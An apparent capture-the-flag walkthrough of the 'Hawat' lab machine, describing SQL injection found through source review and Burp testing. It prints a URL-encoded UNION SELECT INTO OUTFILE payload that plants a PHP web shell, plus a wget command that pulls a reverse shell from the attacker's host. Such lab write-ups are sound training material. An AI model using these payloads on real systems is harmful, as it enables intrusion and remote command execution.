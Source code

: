 Review source code and find SQL Injection exploit.

![sql](../../../assets/images/ctfs/proving_grounds/hawat/sql.png)

Attempt that page and receive a 405 error (Method not allowed)

Send to Burp to start working with the vulnerable endpoint.

The response header shows that POST is an allowed method.

![post](../../../assets/images/ctfs/proving_grounds/hawat/post.png)

We send a POST request and receive a 400 error (Bad Request) because the server is expecting a _priority_ value.

Looking in the application we see the _Priority_ types.

![issues](../../../assets/images/ctfs/proving_grounds/hawat/issues.png)

Resending the request with a _priority=Normal_ query set in the request header we receive a 200 response.

# Exploitation

---

Now we can proceed with tryining to exploit the SQL injection vulnerability.

Run an the following payload URL encoded to get a PHP web shell.

```bash
' UNION SELECT "<?php echo system($_GET['cmd']); ?>" INTO OUTFILE '/srv/http/cmd.php'; -- -

# URL Encoded (urlencoder.org)

%27%20UNION%20SELECT%20%22%3C%3Fphp%20echo%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%20INTO%20OUTFILE%20%27%2Fsrv%2Fhttp%2Fcmd.php%27%3B%20--%20-
```

![attack](../../../assets/images/ctfs/proving_grounds/hawat/attack.png)

Returning to the PHP site running on port 30455 we can run commands with the PHP web shell.

![cmd](../../../assets/images/ctfs/proving_grounds/hawat/cmd.png)

Now we can leverage the PHP reverse shell to get a reverse shell on a netcat listener.

Copy php-reverse-shell.php to the pwd on the attack box and change the parameters as necessary.

URL encode the following payload to download to the PHP reverse shell to the target.

```bash
wget http://192.168.45.217:30455/rev.php -o /srv/http/rev.php

# URL encoded (urlencoder.org)

wget%20http%3A%2F%2F192.168.45.217%3A30455%2Frev.php%20-o%20%2Fsrv%2Fhttp%2Frev.php%0A

# Target downloads after executing the above command in the PHP web shell
┌──(vagrant㉿kali)-[~/Documents/PG/PRACTICE/hawat]
└─$ python3 -m http.server 30455
Serving HTTP on 0.0.0.0 port 30455 (http://0.0.0.0:30455/) ...
192.168.232.147 - - [23/Nov/2023 23:29:43] "GET /rev.php HTTP/1.1" 200 -

```
